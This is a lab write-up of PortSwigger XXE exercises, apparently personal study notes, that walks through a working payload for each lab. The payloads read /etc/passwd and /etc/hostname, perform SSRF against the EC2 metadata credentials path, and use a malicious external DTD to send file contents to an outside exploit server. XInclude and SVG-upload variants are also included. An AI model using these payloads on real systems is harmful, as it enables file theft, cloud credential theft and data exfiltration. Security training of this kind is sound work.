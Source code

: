 # XXE

- https://portswigger.net/web-security/xxe
- https://portswigger.net/web-security/xxe/xml-entities
- https://portswigger.net/web-security/xxe/blind

## Exploiting XXE using external entities to retrieve files

`POST /product/stock` requests check the amount of products in the store and uses XML as a data format as seen in the request body below:

```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

Once we modify the `productId` to a `WRONG` value, we can notice that it is being reflected as an error, so if this part would be vulnerable to XXE, we could read system files this way.

Modifying the request to below body results in the error response containign `file123`, which proves that the parser uses unsafe features of external entities

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file "file123">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```


`<!DOCTYPE check [...]>` defines document and allow specifing its entities.

`< ... [<!ENTITY file "file123">]>` defines an entity `file`, which when accessed by `&file;` will result in value `file123`

Now we can modify the entity to the below value, which will contain the content of `/etc/passwd` file inside `file` entity, which once reference in `productId` param will retrieve its value and result in an error displaying it to us.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE check [<!ENTITY file SYSTEM "file:///etc/passwd">]>
<stockCheck><productId>&file;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

Same history in this task, but this time we need to retrieve the value from external source (simulated EC2 instace metadata endpoint). To achieve this the following payload could be used

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE dxxe [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

`http://169.254.169.254/` was provided in the lab description and fetching its content responded with all the possible next paths that could be taken and that proces ran recursively solves the lab.

Finding secret keys path in steps:
 - `/` -> `latest`
 - `/latest` -> `meta-data`
 - `/latest/meta-data` -> `iam`
 - and so on...

EC2 docs could also be checked for this.

## Blind XXE with out-of-band interaction

Burp Collaborator required - Pro feature only.

To solve the lab create entity definition `xxe` as shown below and reference in `productId` key, by `&xxe;`:

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

## Blind XXE with out-of-band interaction via XML parameter entities

Burp Collaborator required - Pro feature only.

Solving the lab here is nearly the same as before, but this time casual entities are blocked. Fortunately we can make use of parameter entities.

```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

We cannot retrieve the file content via error messages, because always general error response is returned. 

To solve this lab we require a server that would host a malicious partial dtd declaration shown below.

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Now again in `POST /product/stock` request by modyfing the body, injecting the below payload leaks the hostname as a request param in explot server.

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a58001904b1e593812c83dd01d80063.exploit-server.net/exploit.dtd"> %xxe;]>
```

How this works?

By specifing and invoking `xxe` parameter entity, we say to the parser to fetch further `ENTITY` definitions from specified url and inject them into `DOCTYPE` definition and interpret them inline. Further fetched `ENTITY` definitions will read `/etc/hostname` file by `%filel;` entity and dynamically create and entity `%exfiltrate` that will fetch remote server with one of the query params containing file content via `%eval;` entity.

## Exploiting blind XXE to retrieve data via error messages

Similar to the previous situations.
Casual entities are blocked for security reasons. Invalid values provided to `productId` or `stockId` are not reflected back to us.

By injecting below payload we can see the error is returned:

```
<!DOCTYPE foo [<!ENTITY % xxe "test"> %xxe;]>
```

Now we can use exploit server to store partial dtd definitiona file at `/exploit.dtd`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///notexisting/%file;'>"> 
%eval;
%error;
```

Now injecting below payload to the `POST /product/stock` will cause entity declaration and invocation, which will cause to fetch and interpret inline the partial `exploit.dtd` definition.

`exploit.dtd` defines a `file` parameter entity with value of `/etc/passwd` file content, and then evaluates dynamically `error` entity which tries to open the not existantant filename containing `/etc/passwd` value, which triggers an error and responds with it to the client.

XML parameter entity within the definition of another parameter entity is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

## Exploiting XInclude to retrieve files

This time `POST /product/stock` sends the requests parameters in the classic way. 

But then, provided params are injected into into XML format and parsed on the backed. Since we cannot define `DOCTYPE` document ourselves, we can make use of `XInclude`.

By sending the below value as `productId`, will cause to fetch and parse as text `/etc/passwd` file and then return the value of the file in the error message.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE via image file upload

Creating a comment functionality allows uploading avatar image. Uploaded SVG images seems to be processed and saved as png file then.

Since SVG files are allowed and they have XML format, we can try to inject XXE payloads and hope for the server interpreting it.

Uploading `cat.svg` file with content:

```
<!DOCTYPE foo [<!ENTITY % r SYSTEM "file:///notexistant"> %r;]>
```

responds with

```
SVG transcoder exited with an error: null
Enclosed Exception:
/notexistant (No such file or directory)
```

which proves that we have XXE vulnerability.

Trying to inject that content of the file in `desc` description tag or other similar and then checking the generated png file with `exiftool` for file content failed.

Successful attempt was to generate an image depicting content of the file with `text` tag. Uploading svg file with content shown below creates a comment depicting content of `/etc/hostname` file, which can be the accessed from post comments.

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [
<!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg width="5cm" height="4cm" version="1.1"
     xmlns="http://www.w3.org/2000/svg">
<text font-size="16" x="0" y="16">&file;</text>
</svg>
```
